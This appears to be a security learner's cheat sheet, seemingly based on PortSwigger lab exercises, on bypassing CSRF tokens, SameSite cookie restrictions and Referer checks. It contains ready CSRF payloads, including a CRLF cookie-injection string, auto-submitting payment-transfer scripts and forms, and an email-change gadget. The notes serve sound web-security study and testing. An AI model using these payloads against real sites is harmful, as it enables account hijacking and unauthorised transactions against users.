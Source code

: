 # Content
- [Bypassing CSRF token validation](#bypassing-csrf-token-validation)
  - [Validation of CSRF token depends on request method](#validation-of-csrf-token-depends-on-request-method)
  - [Validation of CSRF token depends on token being present](#validation-of-csrf-token-depends-on-token-being-present)
  - [CSRF token is not tied to the user session](#csrf-token-is-not-tied-to-the-user-session)
  - [CSRF token is tied to a non-session cookie](#csrf-token-is-tied-to-a-non-session-cookie)
  - [CSRF token is tied to a length](#csrf-token-is-tied-to-a-length)
  - [CSRF token is simply duplicated in a cookie](#csrf-token-is-simply-duplicated-in-a-cookie)
# Bypassing CSRF token validation

### Validation of CSRF token depends on request method

try diffrent methods

### Validation of CSRF token depends on token being present

remove paramter

### CSRF token is not tied to the user session

obtain a token and use it

### CSRF token is tied to a non-session cookie
- If the website contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. 
- The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack. 
- The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv  
  
csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

### CSRF token is tied to a length
- change a char

use crlf injection EX :

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```


### CSRF token is simply duplicated in a cookie

- some applications do not maintain any server-side record of tokens that have been issued

- the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie-but

- instead duplicate each token within a cookie and a request parameter.

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa  
  
csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```



# Bypassing SameSite cookie restrictions

### Bypassing SameSite Lax restrictions using GET requests

- craft get link
```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

- method override


for example Symfony supports the _method parameter 
```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

### Bypassing SameSite restrictions using on-site gadgets (Strict , Lax )

- find a gadget that results in a secondary request within the same site

EX : DOM-based open redirection.

```html
<script>  
document.location =```https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?  
postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1```;  
</script>
```


### Bypassing SameSite restrictions via vulnerable sibling domains

-xss

-Cross-site WebSocket hijacking


# Bypassing Referer-based CSRF defenses

### Validation of Referer depends on header being present

 HTML page that hosts the CSRF attack contain:  
```html
<meta name="referrer" content="never">
```
